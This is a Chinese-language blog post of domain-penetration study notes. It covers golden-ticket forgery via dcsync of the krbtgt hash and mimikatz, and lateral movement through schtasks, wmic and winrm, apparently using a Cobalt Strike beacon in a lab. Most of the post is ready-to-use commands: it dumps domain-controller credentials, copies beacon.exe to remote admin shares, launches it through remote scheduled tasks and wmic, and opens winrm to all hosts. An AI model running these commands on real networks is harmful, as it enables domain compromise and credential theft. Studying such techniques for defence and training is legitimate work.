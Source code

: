 ```yaml
---
layout: post
title:  域渗透学习二
tags: [域渗透]
---
```


# 概述
web选手学习域渗透记录。
1. [域渗透学习一](https://h4fan.github.io/2021/08/18/%E5%9F%9F%E6%B8%97%E9%80%8F%E5%AD%A6%E4%B9%A0%E4%B8%80.html)

# 目录
* 黄金票据
* schtasks
* wmic
* winrm
* sc


## 记录

### 黄金票据
获取krbtgt hash，在域控shell上执行
```
dcsync test.local test\krbtgt
# 获取Object Security ID 和 Hash NTLM

```

在win7普通权限shell，右键伪造golden ticket
```
# 查看
mimikatz  kerberos::list

# 此时可以查看到共享
shell dir \\win2016\c$
```

### schtasks
注意/st 时间格式HH:MM，不要漏掉0。关闭了防火墙，提供了用户名和密码。或者管理员session，时间按照net time 第一个时间设置就可以。create 之后要 run。
```
shell net time \\win10

shell schtasks /create /S win10 /sc once /tn runshell /tr c:\beacon.exe /st 07:00

shell schtasks /run /s win10 /u [domain\username] /p [password] /tn runshell /i

shell schtasks /delete /s win10 /u [domain\username] /p [password] /tn runshell /f
```

schtasks /query显示错误：无法加载列资源
```
# 在win7 机器执行
chcp 437
# 在打开的cmd中
schtasks /query /s win10 /u [domain\username] /p [password] /tn runshell /fo list


```

### wmic
一是权限的问题，二是防火墙的问题。还有免杀的问题，演示时关闭windows defender.
使用管理员账号spawn一个seesion
```
shell wmic /node:win10 process list brief

shell copy beacon.exe \\win10\c$

shell wmic /node:win10 process call create "cmd.exe /c c:\beacon.exe" 
```

### winrm
在目标机上，打开管理员权限的cmd
```
# 开启winrm
winrm quickconfig

winrm e winrm/config/listener

winrm set winrm/config/client @{TrustedHosts="*"}
```
在win7上执行
```
winrm -r:http://win10:5985 -u:[Username] -p:[passowrd] whoami

```
在cs 中shell执行一直提示句柄无效。可以直接用图形界面，jump  winrm64 运行。

### sc
参考 域渗透学习一


### 引用
1. https://cloud.tencent.com/developer/article/1743842
2. https://www.cnblogs.com/xiaozi/p/14263931.html
3. https://www.cnblogs.com/lcxblogs/p/13847184.html
4. https://drunkmars.top/2021/06/10/%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%E6%80%BB%E7%BB%93/
5. https://www.cnblogs.com/websecyw/p/11238189.html
6. https://blog.csdn.net/weixin_43713800/article/details/113195764
